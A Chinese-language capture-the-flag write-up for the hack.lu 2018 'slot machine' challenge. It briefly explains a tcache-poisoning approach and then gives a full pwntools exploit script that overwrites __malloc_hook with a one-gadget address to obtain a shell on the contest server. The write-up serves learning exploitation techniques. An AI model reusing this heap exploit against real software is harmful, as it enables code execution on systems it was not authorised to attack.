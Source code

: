 # slot machine

## 分析

tcache poision，类似fastbin attack，只给了8步，且一次只能写8个字节，

**原来tcache并不检查堆头大小。**
现在可以libc内任意地址写。

~~bye()函数内，只有puts和exit()，考虑是否可以hook IO_FILE或exit的相关内容。~~

因为直接给了libc　system的地址，也无法leak其他地址，所以只能在libc上操作。

尝试dup然后poision，结果需要9次，无法减少。

最后通过构造tcache的count大小，在0x10entry的上一个，然后free，再malloc，拿到该块，从而改0x10的entry为malloc_hook。
正好8次

tcache参考文章：

* http://p4nda.top/2018/03/20/tcache/
* https://github.com/firmianay/CTF-All-In-One/blob/master/doc/4.14_glibc_tcache.md
* http://tukan.farm/2017/07/08/tcache/
* https://dangokyo.me/2018/01/16/extra-heap-exploitation-tcache-and-potential-exploitation/

## 脚本


```python
#!/usr/bin/env python2
# coding: utf-8
# Usage: ./exploit.py -r/-l/-d

from pwn import *
import argparse
import itertools

IP = "arcade.fluxfingers.net"
PORT = 1815
# IP = "192.168.33.1"
# PORT = 9999

context.arch = "amd64"
context.log_level = 'DEBUG'
context.terminal = ['tmux', 'splitw', '-h']
BIN = "./slot_machine"


def r(x): return io.recv(x)
def ru(x): return io.recvuntil(x)
def rud(x): return io.recvuntil(x, drop=True)
def se(x): return io.send(x)
def sel(x): return io.sendline(x)
def pick32(x): return u32(x[:4].ljust(4, '\0'))
def pick64(x): return u64(x[:8].ljust(8, '\0'))


parser = argparse.ArgumentParser()

parser.add_argument('-d', '--debugger', action='store_true')
parser.add_argument('-r', '--remote', action='store_true')
parser.add_argument('-l', '--local', action='store_true')
args = parser.parse_args()

io = None  # this is global process variable

binary = ELF(BIN)

if args.remote:
    context.noptrace = True
    io = remote(IP, PORT)  
    libc = ELF("./libc.so.6")
elif args.local or args.debugger:
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc.so.6")}
    # env = {}
    io = process(BIN, env=env)
    print io.libs()
    proc_base = io.libs()[
        "/home/vagrant/DongFeng/hack.lu2018/pwn/slot_machine/public/slot_machine"]
    libc_bb = io.libs()[
        '/home/vagrant/DongFeng/hack.lu2018/pwn/slot_machine/public/libc.so.6']
    # libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    libc = ELF("./libc.so.6")
else:
    parser.print_help()
    exit()



def malloc_heap(size):
    rud("[ 4 ] : bye!")
    sel(str(1))
    rud("How much?")
    sel(str(size))


def free_heap(index):
    rud("[ 4 ] : bye!")
    sel(str(2))
    rud("where?")
    sel(str(index))

def write_heap(payload):
    rud("[ 4 ] : bye!")
    sel(str(3))
    rud("what?")
    if len(payload) > 8:
        log.critical("May be your PAYLOAD too long!!!!!!")
    se(payload)


if args.debugger:
    gdb.attach(io, '''
    b *0x{:x}
    b *0x{:x}
    b *0x{:x}
    b *0x{:x}
    c
    '''.format(
        proc_base + 0x00000000000013B8,  # malloc
        proc_base + 0x00000000000013EE,  # free
        proc_base + 0x00000000000001424,  # write
        libc_bb + 0xe75f0, #one gadget
        )
    )

ru("Here is system : ")
system_addr = int(rud("\n").strip(), 16)
libc.address = system_addr - libc.symbols["system"]
log.critical("libc.address: 0x%x" % libc.address)

new_malloc_hook = libc.symbols["__malloc_hook"] # - 0x20 + 0x5 - 0x8
log.critical("new_malloc_hook address for fastbin attack: 0x%x" % new_malloc_hook)

# 可用解法，但需要9步
# malloc_heap(0x10)
# free_heap(0)
# free_heap(0)
# malloc_heap(0x10)
# write_heap(p64(new_free_hook))
# malloc_heap(0x10)
# malloc_heap(0x10)

malloc_heap(0x3a0)
free_heap(0)
free_heap(-0x260+0x50)
malloc_heap(0x100-0x10)
write_heap(p64(new_malloc_hook))
malloc_heap(0x10)


one_gg = 0xe75f0 + libc.address
log.critical("one gadget address: 0x%x" % one_gg)
one_gg = p64(one_gg)

content = one_gg
write_heap(content)

malloc_heap(0x10)

io.interactive()
```